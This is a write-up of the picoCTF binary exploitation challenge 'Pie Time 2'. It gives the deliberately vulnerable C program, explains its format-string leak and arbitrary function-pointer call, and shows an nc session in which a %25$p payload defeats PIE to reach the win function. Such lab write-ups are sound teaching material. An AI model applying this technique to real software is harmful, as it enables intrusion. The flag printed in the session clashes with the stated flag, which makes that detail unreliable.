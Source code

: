 # [Pie Time 2 (Binary Exploitation, Medium)](https://play.picoctf.org/practice/challenge/491) - 
- Description: Can you try to get the flag? I'm not revealing anything anymore!!
 - `vuln.c`
 ```c
 #include <stdio.h>
 #include <stdlib.h>
 #include <signal.h>
 #include <unistd.h>
 
 void segfault_handler() {
   printf("Segfault Occurred, incorrect address.\n");
   exit(0);
 }
 
 void call_functions() {
   char buffer[64];
   printf("Enter your name:");
   fgets(buffer, 64, stdin);
   printf(buffer);
 
   unsigned long val;
   printf(" enter the address to jump to, ex => 0x12345: ");
   scanf("%lx", &val);
 
   void (*foo)(void) = (void (*)())val;
   foo();
 }
 
 int win() {
   FILE *fptr;
   char c;
 
   printf("You won!\n");
   // Open file
   fptr = fopen("flag.txt", "r");
   if (fptr == NULL)
   {
       printf("Cannot open file.\n");
       exit(0);
   }
 
   // Read contents from file
   c = fgetc(fptr);
   while (c != EOF)
   {
       printf ("%c", c);
       c = fgetc(fptr);
   }
 
   printf("\n");
   fclose(fptr);
 }
 
 int main() {
   signal(SIGSEGV, segfault_handler);
   setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered
 
   call_functions();
   return 0;
 }
 ```
 - Hint 1: What vulnerability can be exploited to leak the address?
 - Hint 2: Please be mindful of the size of pointers in this binary
 - Solution:
 - C program with a format string vulnerability, an arbitrary function call via a user-supplied address, a PIE (Position Independent Executable) enabled (function addresses change every run)
 - Goal: Call hidden `win` function to print the flag
 - `printf(buffer);`: User input is directly passed to `printf`, allowing memory leaks using format specifiers like `%p`
 - `void (*foo)(void) = (void (*)())val;`: User controls `val`, which is cast to a function pointer and called (allowing arbitrary code execution if you supply a valid function address)
 ```bash
 schufot-picoctf@webshell:~$ nc rescued-float.picoctf.net 59092
 Enter your name:%25$p
 0x63e485ca3400
  enter the address to jump to, ex => 0x12345: 0x63e485ca336a
 You won!
 picoCTF{p13_5h0u1dn'7_134k_9650b792}
 ```
- Flag: `picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_31cc212b}`
- Explanation:
